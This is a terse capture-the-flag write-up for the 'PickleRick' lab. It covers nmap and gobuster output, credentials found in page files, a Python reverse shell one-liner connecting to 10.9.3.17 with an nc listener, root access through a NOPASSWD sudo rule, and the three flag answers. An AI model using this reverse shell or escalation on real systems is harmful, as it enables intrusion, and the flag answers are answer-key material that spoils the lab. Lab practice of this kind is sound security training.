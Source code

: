 # PickleRick

IP = 10.10.22.5


### Nmap
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### Username
```
Found username R1ckRul3s

curl 10.10.22.5
```

### Gobuster
```
/assets               (Status: 301) [Size: 309] [--> http://10.10.22.5/assets/]
/robots.txt           (Status: 200) [Size: 17]
```

#### Potential Password
```
Wubbalubbadubdub

curl 10.10.22.5/robots.txt

```

### Found Creds

```
R1ckRules : Wubbalubbadubdub
```
### initial exploitation

```
host: nc -lnvp 9999

remote : python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.17",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Priv Escalation
```
www-data@ip-10-10-165-128:/home/ubuntu$ sudo -l
sudo -l
Matching Defaults entries for www-data on ip-10-10-165-128:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-165-128:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-165-128:/home/ubuntu$ sudo bash
sudo bash
root@ip-10-10-165-128:/home/ubuntu# 
```

```
1. mr. meeseek hair

2. 1 jerry tear

3. fleeb juice
```

